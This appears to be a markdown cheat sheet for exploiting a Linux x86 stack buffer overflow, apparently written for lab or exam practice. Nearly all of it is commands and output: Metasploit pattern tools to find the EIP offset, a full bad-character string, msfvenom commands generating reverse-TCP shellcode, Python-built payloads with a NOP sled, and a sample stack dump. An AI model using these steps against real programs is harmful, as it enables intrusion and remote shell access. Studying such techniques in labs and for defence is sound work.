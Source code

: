 # buffer overflow Linux x86

## Take control EIP

- Get rough estimate offset
```shell
$(python -c 'print("A" * 1000)')
```

- Create pattern
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate exact offset
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset by overwriting EIP
```shell
$(python -c 'print("A" * 1000 + "B" * 4)')
```

## Determine shellcode length

- Generate shellcode using `msfvenom`

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux --arch x86 --format c
```

## Identify bad chars

- `CHARS` string below.
```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
```shell
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

- Start inspecting bad characters. The 265 is the length of `$CHARS` at this time.

```shell
$(python -c 'print("A" * (1000 - 265) + "\x00\x01...\xff" + "B" * 4)')
```

- Use the following command to inspect the stack.

```shell
(gdb) x/2000xb $esp+500
```

- Iterate the process. Example.

```shell
# remove \x00\x09
run $(python -c 'print("A" * (2060 - 254) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a" + "B" * 4)')
```

## Generate shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`.
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux --arch x86 --format c --bad-chars "\x00\x09\x0a\x20"
```

- Update program input. The `\x90` chars are NOP instructions.

```shell
run $(python -c 'print("A" * (2060 - 120 - 90) + "\x90" * 120 + "shellcode" + "B" * 4)')
```

- Example stack is given below.

```shell
...
0xffffd6b4:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6bc:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
...
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73c:     0xbf    0x0c    0xf4    0xbb    0x7c    0xd9    0xcb    0xd9
0xffffd744:     0x74    0x24    0xf4    0x5a    0x31    0xc9    0xb1    0x12
...
```

## Identify return address

- Get a memory address where **only** NOPs are located to tell the EIP to jump to it.
- This memory address must **not** contain any of the bad characters we found earlier.
- Pass the address to the input **backwards** in case of little Endian
